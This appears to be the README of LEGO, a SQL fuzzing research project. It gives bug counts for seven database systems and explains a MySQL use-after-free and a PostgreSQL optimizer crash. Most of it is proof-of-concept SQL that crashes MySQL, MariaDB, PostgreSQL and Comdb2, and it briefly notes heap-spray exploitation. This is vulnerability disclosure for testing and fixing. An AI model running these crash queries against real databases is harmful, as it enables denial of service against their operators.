

# Bug Number Statistics
| DBMS       | Bug Number |
|------------|------------|
| MySQL      | 22         |
| MariaDB    | 46         |
| PostgreSQL | 11         |
| Comdb2     | 33         |
| SQLite     | 11         |
| ANTDB      | 23         |
| PolarDB    | 15         |
| Total      | 161        |

# **Cases Study And PoCs**
LEGO found lots of bugs that are common in real-world queries. Here are some cases study of bugs found by LEGO. 

## **CVE-XXXX-21303: A Use-After-Free Bug in MySQL**
The bug is hidden deeply in the *item_cmpfunc.cc* of MySQL. It triggered a use-after-free issue in class *Item_func_in*, which caused serious security damage to the database. Figure 1 shows a part of code for the class *Item_func_in* which is designed for IN expression. The *in_vector \*array* is the main member to store the temporary data of an expression. It also contains some other functions and variables for different operations. For example, the *cleanup()* is used to free the array.

<center>
    
    <br>
    <div>Figure 1: a part of code for class Item_func_in</div>
</center>

### The mechanism to trigger the bug. 
Listing 1 shows the SQL query that triggers that bug. First, it creates a table *v0* and associates attribute *v3* with v1by using the *GENERATED* clause and *IN* expression. In the process, the *in_vector \*array* in *Item_func_in* would be used to store the temporary data in the associated column. 
Then it executes the ALTER statement and the INSERT statement to change the structure of the table and insert the record into the table *v0*. However, the *cleanup()* function is called by mistake and the *in_vector \*array* is freed, which may still be used when operating the table *v0*.  Finally, a use-after-free happens when MySQL executes the SELECT statement to query data from *v0*. 

```SQL
CREATE TEMPORARY TABLE v0 ( v1 TINYBLOB, v2 TINYINT, v3  BINARY GENERATED ALWAYS AS (v1 IN (FALSE, CURRENT_USER() IS NULL,34))) ;
ALTER TABLE v0 ADD COLUMN v0 MEDIUMINT;
INSERT IGNORE INTO v0 VALUES ('x','x','x',1);
SELECT * FROM v0;
```
<center>Listing 1: the PoC to trigger the UAF</center>

### The damage of the bug. 
It is a high-severity UAF vulnerability, which could cause serious database security problems. When the SELECT statement is executed to query the data in the table, the array variable is previously freed, but it will be used again because the array internal function could still be called for related operations. If an attacker occupies the array object in advance through operations such as heap spray, the attacker may directly control the entire execution process and take the opportunity to obtain sensitive information of other users in the database, causing serious security damage.
According to the *Oracle Security Alerts* analysis, the bugs can be used to directly attack the MySQL server by network with low complexity. Even without user interaction, it could also cause a high availability impact on MySQL server by an attacker.  


## **SEGV in PostgreSQL**
We introduce and analyze a SEGV caused by a sequence that combines *NOTIFY* and *WITH* statements in PostgreSQL.
The bug was introduced 2 years ago, which lies in PostgreSQL's optimizer component. It happens when the optimizer makes the plan for the query of a clause. Specifically, the bug is triggered by the unexpected sequence which composes the *NOTIFY* statement and the *WITH* clause.


```SQL
CREATE TABLE v0(v4 INT, v3 INT UNIQUE, v2 INT, v1 INT UNIQUE);
CREATE OR REPLACE RULE v1 AS ON INSERT TO v0 DO INSTEAD NOTIFY COMPRESSION;
COPY(SELECT 32 EXCEPT SELECT v3+16 FROM v0) TO STDOUT CSV HEADER;
WITH v2 AS(INSERT INTO v0 VALUES(0)) DELETE FROM v0 WHERE v3 = ---48;
```
<center>Listing 2: the PoC to trigger the SEGV in PostgreSQL</center>

### The mechanism to trigger the bug.
Listing 2 shows a SQL query that could trigger that bug. First, it executes the *CREATE TABLE* statement to create a table *v0* in PostgreSQL. 
Then it creates an instead rule on the *INSERT* operation for table *v0*, which executes an *NOTIFY* instead of inserting values.
After executing the *COPY* operation to transfer data, it uses an *WITH* clause to create a temporary view, which updates the data of *v0* (i.e., inserts one value and deletes some other records). However, the SQL Type Sequence *CREATE RULE-->NOTIFY-->COPY-->WITH* constructs a logic that is not considered in PostgreSQL.


<center>
    
    <br>
    <div>Figure 2: the crash code of SEGV and fixing methods</div>
</center>

Figure 2 shows the relevant crash code to this bug, as well as the fixing methods.
PostgreSQL crashes in its optimizer component's *replace_empty_jointree* function when the backend process makes plans for the *WITH* statement. The root cause of this bug is in PostgreSQL's rewrite component, which ignores the situation when a *NOTIFY* statement is followed by a *WITH* statement.

Specifically, since the *NOTIFY* statement is associated with the *INSERT* operation for table *v0*, PostgreSQL will invoke the rewrite rule to replace the insert operation *INSERT INTO v0 VALUES (0)* in the *WITH* statement with a *NOTIFY* statement. In the code, PostgreSQL calls the *RewriteQuery* function to process insert statements in WITH clauses. However, *NOTIFY* commands are not supported to replace the *INSERT* statement in a *WITH* clause. In other words, it misses the case where a DML *sql-types* statement is rewritten by a *NOTIFY* statement. As a result, PostgreSQL gets an NULL *jointree* which causes the SEGV in *replace_empty_jointree* in planning later. 

### The reason for detecting the bug by LEGO.
The bug is invoked by an unexpected SQL Type Sequence, which is rarely used by users as well as testers, and as a result, the bug hides for about 2 years. 
With the analyzed the type-affinities, LEGO synthesizes abundant SQL Type Sequences containing the expected sequence. Based on the type sequence of corresponding synthesized queries,  LEGO mutates them into more queries effectively and finally synthesis the appropriate statements to trigger this bug.


## **SOME OTHER PoC of Bugs**
### MySQL
```SQL
1. The PoC of CVE-XXXX-35644
CREATE TABLE v0 (v2 MEDIUMINT PRIMARY KEY , v1 MEDIUMTEXT ) ;
INSERT INTO v0 (v3. *) VALUES (DEFAULT,DEFAULT) ;
SELECT * FROM v0 WHERE v1 IN (255,15,83/97) ;
SELECT * FROM v3 WHERE v1 IN (MINUTE(FALSE),-1/255) ;

2. The PoC of CVE-XXXX-35642
CREATE TABLE v0 ( v2 INT UNIQUE KEY STORAGE DEFAULT COMMENT 'x' SERIAL DEFAULT VALUE , v1 BINARY ( 0 ) ) ;
CREATE UNIQUE INDEX PACK_KEYS ON v0 ( ( ( CASE 'x' WHEN v1 THEN v1 ELSE 60 / 0 END ) IS NOT FALSE ) DESC ) ;
SELECT * FROM v0 AS x WHERE v2 IN ( 8 , 50 , 37 ) ;
SELECT * FROM v0 WHERE v1 IN ( v1 IN ( 'x' * 'x' ) , -1 ) ;

3. The PoC of CVE-XXXX-21304
CREATE TABLE v0 ( v1 SERIAL AS ( '' IS UNKNOWN ) ) ;
CREATE TABLE v2 AS SELECT ( ( v1 BETWEEN 127 AND -1 ) + v1 AND 'x' ) LIMIT 92 OFFSET 2147483647 ;
CREATE TABLE v3 ( v5 INT PRIMARY KEY , v4 INT ) ;
INSERT INTO v2 () VALUES (95) , (0) ;
SELECT * FROM v0 , v3 WHERE 'x' ;

4. The PoC of CVE-XXXX-35645
CREATE TABLE v0 (v3 INT, v2 INT, v1 INT UNIQUE PRIMARY KEY);
CREATE UNIQUE INDEX v4 ON v0((v2 IN('x'))ASC, (8));
SELECT v3 NOT LIKE 'x' FROM v0 NONE WHERE v1 IN (8, '' LIKE NULL,TRUE,99);
```

### MariaDB
```SQL
1. CREATE TABLE v0 ( v2 SET ( 'x' ) DEFAULT 'x' , v1 BIGINT ) ENGINE = MEMORY ROW_FORMAT = COMPRESSED ( SELECT 35268330.000000 AS v3 , 3 ) ;
START TRANSACTION ;
SELECT * FROM v0 WHERE v1 = ( bit_count ( 'x' ) AND 0 ) ;
INSERT INTO v0 SELECT * FROM v0 ;
UPDATE v0 SET v1 = v3 + 52 ORDER BY ( SELECT v3 LIMIT 53 OFFSET 16 ) DESC ;
INSERT INTO v0 SELECT TABLE_NAME FROM v0 . PARTITIONS WHERE v2 = 'x' GROUP BY 'x' BETWEEN 'x' AND 'x' = 'x' ;

2.  CREATE TABLE t1 (i int AS ('x') stored, j int)engine=innodb;
SHOW LOCAL STATUS WHERE COALESCE ( 27 , 51 - 39 ) = 'x' ;
DELETE FROM v0 WHERE 44707452.000000 ;
ALTER TABLE t1 ADD COLUMN i INT GENERATED ALWAYS AS ('a'), DROP COLUMN i ;
SELECT COUNT ( * ) FROM v0 WHERE v1 = -128 AND v1 = 'x' ;

3. CREATE TABLE v0 (v1 BIT, v2 BIT, v3 BIT, v4 BIT , v5 BIT, v6 BIT);
INSERT INTO v0 VALUES (1,0,0,1,0,1),(0,1,0,0,1,0);
SELECT v1 from v0 order by row_number() over (ORDER BY V6) + 1;
DROP TABLE V0;
```

### **PostgreSQL**
```SQL
1. 
CREATE FUNCTION int8col(cstring) RETURNS byteacol AS 'int4in' LANGUAGE internal STRICT IMMUTABLE;
CREATE FUNCTION int2col(byteacol) RETURNS cstring AS 'textout' LANGUAGE internal STRICT IMMUTABLE;
CREATE TYPE byteacol ( internallength = 4, input = int8col output = int2col, alignment = int4, default = 42, passedbyvalue);
CREATE TABLE textcol (oidcol byteacol, float4col byteacol);
INSERT INTO textcol DEFAULT VALUES;
SELECT * FROM textcol;

2.
CREATE TEMP TABLE v0 ( v2 SMALLINT NOT NULL DEFAULT - - 90 , DATA TEXT , v1 REAL CONSTRAINT XMLFOREST NULL ) ;
INSERT INTO v0 VALUES ( - - - - 0 , - - - - -1 ) , ( - - ( ( ( SELECT ( SELECT LEAST ( v1 ) x FROM v0 WHERE - - - 43 >= v1 ) FROM v0 AS v2 ( OVERLAY , v2 , v1 ) ) ) UNION SELECT - - - 22 ) , - - - - - - 2147483647 ) , ( - - - -128 , - - - -2147483648 ) , ( - - - - 36 , - - - - - - - -128 ) , ( - - - - 9 , - - - - - -128 ) ON CONFLICT DO NOTHING ;
SELECT - - 11 + v2 AS x FROM v0 WHERE v2 = ( SELECT LEAST ( ( ( ( SELECT - 127 FROM ( SELECT 0 FROM ( VALUES ( - 16 ) , ( -2147483648 ) , ( - - - - -1 ) ) v2 ( v2 ) GROUP BY ( + - - 72 ) / - - 18 ) AS SMALLINT ) ) UNION SELECT MODE ( ) WITHIN GROUP ( ORDER BY v2 DESC ) FILTER ( WHERE MODE ( ) WITHIN GROUP ( ORDER BY v1 = CASE WHEN v1 IS NULL THEN v1 ELSE - - 91 END DESC ) ) NULL ) ) FROM v0 ) ;
COMMIT TRANSACTION ;
DELETE FROM v0 WHERE v2 = - - - - - - 38;
3.   
CREATE TEMPORARY TABLE v0 ( v1 INTEGER ) ;
CREATE RULE v1 AS ON DELETE TO v0 DO INSERT INTO v0 SELECT OFFSET - - - -1 FOR UPDATE FOR UPDATE FOR SHARE FOR UPDATE FOR SHARE FOR SHARE ;
DELETE FROM v0 ;
ALTER TABLE v0 ADD UNIQUE ( v1 ) ;
```

### **Comdb2**
```SQL
1.
CREATE TABLE v0 ( v1 VARCHAR(1) ) ;
CREATE VIEW v2 ( v3 , v4 ) AS WITH tmp AS ( SELECT * FROM v0 ) SELECT v4 , v3 + 5 FROM v2 ;
SELECT SUM ( v3 * ( 1 - v1 ) ) - 4 ;
SELECT * FROM v2 WHERE v4 IN ( SELECT v1 FROM v0 ) GROUP BY zeroblob ( 21 ) ;
 
2.
CREATE TABLE v0 ( v1 VARCHAR(152) PRIMARY KEY ) ;
INSERT INTO v0 VALUES ( 1 ) ;
SELECT v1 , v1 FROM v0 WHERE v1 = v1 + NOT lower ( 10 ) ;
 
3.
PRAGMA vdbe_addoptrace=false;
CREATE VIEW v0 ( v1 , v2 ) AS WITH t4 AS ( SELECT * FROM v0 ) SELECT DISTINCT v0 . v2 , 'ABcd' FROM v0 ;
CREATE INDEX v3 ON v0 ( v1 ) ;
SELECT count () FROM v0 WHERE substr ( v1 , 'v0' ) ;
SELECT randomblob ( 10 ) - 1 ;
``` 


